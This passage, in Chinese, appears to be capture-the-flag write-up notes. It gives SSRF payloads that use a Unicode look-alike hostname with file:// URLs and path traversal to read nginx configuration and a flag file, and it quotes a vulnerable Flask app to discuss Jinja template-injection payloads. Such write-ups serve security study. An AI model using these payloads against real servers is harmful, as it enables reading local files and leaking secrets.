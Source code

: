 payload:
```
file://suctf.cⅭ/usr/local/nginx/conf/nginx.conf
file://suctf.cⅭ/usr/fffffflag
```

贴上另外部分nginx的配置文件所在位置

```ph
配置文件： /usr/local/nginx/conf/nginx.conf
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
```

因此我们先去读取配置文件

/getUrl?url=file://suctf.cℂ/../../../../../usr/local/nginx/conf/nginx.conf

发现flag路径，直接读取

[wp](https://blog.csdn.net/qq_45691294/article/details/108783044)

---
# [WesternCTF2018]shrine

- SSTI
- config的替换


```python
import flask 
import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG')  # 注册了一个名为FLAG的config
@app.route('/') 
def index(): 
    return open(__file__).read() 
@app.route('/shrine/')  # 路径，这里设置了shrine路由，这里可能会实现ssti
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self']  # 黑名单
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s  # 遍历黑名单将结果为空
    return flask.render_template_string(safe_jinja(shrine)) 
if __name__ == '__main__': 
app.run(debug=True)
```

接下来我们使用 {{config}} 查看一下配置文件，这样app.config也就可以看到了。

不过在这道题当中设置了黑名单，过滤了 config 与 self ，不然我们可以使用config，传入 config，或者使用self传入 `{{self.dict}}`，不过，这道题是不行了。
